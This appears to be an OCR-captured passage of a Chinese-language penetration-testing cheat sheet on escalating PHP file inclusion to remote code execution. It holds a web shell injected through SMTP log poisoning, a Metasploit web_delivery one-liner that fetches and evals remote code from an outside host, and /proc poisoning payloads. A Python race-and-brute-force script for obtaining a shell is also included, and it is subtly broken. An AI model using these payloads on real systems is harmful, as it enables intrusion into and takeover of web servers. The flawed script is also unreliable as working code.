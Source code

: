 	rcpt to: root
	250 2.1.5 Ok
	data
	354 End data with <CR><LF>.<CR><LF>
	subject: <?php echo system($_GET["cmd"]); ?>
	data2
	.
	包含文件
	http://example.com/index.php?page=/var/log/mail

  #### RFI&命令注入上线MSF
	MSF生成
	#use exploit/multi/script/web_delivery
	#set target PHP
	注入点注入：
	php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.107:1234/OgsOFaj3yKH'));"
	RFI：
	http://www.xx.com/file=http://192.168.0.107:1234/OgsOFaj3yKH
  #### 通过 /proc/*/fd LFI 到 RCE
	上传大量的shell（例如：100）
	http://example.com/index.php?page=/proc/$PID/fd/$FD，其中 $PID = 进程的 PID（可以被暴力破解）和 $FD 文件描述符（也可以被暴力破解）
  #### 通过 /proc/self/environ LFI 到 RCE
  	像日志文件一样，在User-Agent中发送payload，会体现在/proc/self/environ文件里面

	GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
	User-Agent: <?=phpinfo(); ?>
  #### 通过上传完成LFI到RCE
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```
  #### 工具
  	https://github.com/P0cL4bs/Kadimus
	https://github.com/kurobeats/fimap
	https://github.com/lightos/Panoptic